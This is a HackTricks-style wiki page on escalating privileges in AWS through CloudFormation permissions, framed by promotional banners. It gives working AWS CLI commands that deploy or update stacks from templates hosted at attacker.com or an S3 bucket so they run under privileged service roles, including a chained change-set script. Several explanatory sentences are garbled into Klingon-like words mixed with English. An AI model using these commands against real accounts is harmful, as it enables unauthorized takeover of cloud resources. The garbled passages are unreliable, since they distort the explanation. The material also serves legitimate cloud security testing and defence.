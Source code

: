 # AWS - Cloudformation Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## cloudformation

For more information about cloudformation check:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

An attacker with these permissions **can escalate privileges** by crafting a **CloudFormation stack** with a custom template, hosted on their server, to **execute actions under the permissions of a specified role:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
**ghItlhvam:** qaStaHvIS **exploitation example** **`cloudformation:DescribeStacks`** permission **`ghItlhvam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**qoQ:** cloudformation service role specified **Privesc**.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

**qaStaHvIS:** **abuse an existing cloudformation stack** to update it and escalate privileges as in the previous scenario:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role specified.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

If you have this permission but **no `iam:PassRole`** you can still **update the stacks** used and abuse the **IAM Roles they have already attached**. Check the previous section for exploit example (just don't indicate any role in the update).

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

An attacker with permissions to **pass a role and create & execute a ChangeSet** can **create/update a new cloudformation stack abuse the cloudformation service roles** just like with the CreateStack or UpdateStack.

The following exploit is a **variation of the**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) using the **ChangeSet permissions** to create a stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` permission jatlh **'ej `ChangeSet` permissions'** vItlhutlh. 

**QaD:** cloudformation service roles vItlhutlh.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

ghu'vam method vItlhutlh **IAM roles** vItlhutlh, vaj **'ej already attached ones'** vItlhutlh, parameter modify vItlhutlh:
```
--change-set-type UPDATE
```
**Qapla'!** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

An attacker could abuse these permissions to create/update StackSets to abuse arbitrary cloudformation roles.

**Qapla'!** Privesc to cloudformation service roles.

### `cloudformation:UpdateStackSet`

An attacker could abuse this permission without the passRole permission to update StackSets to abuse the attached cloudformation roles.

**Qapla'!** Privesc to the attached cloudformation roles.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
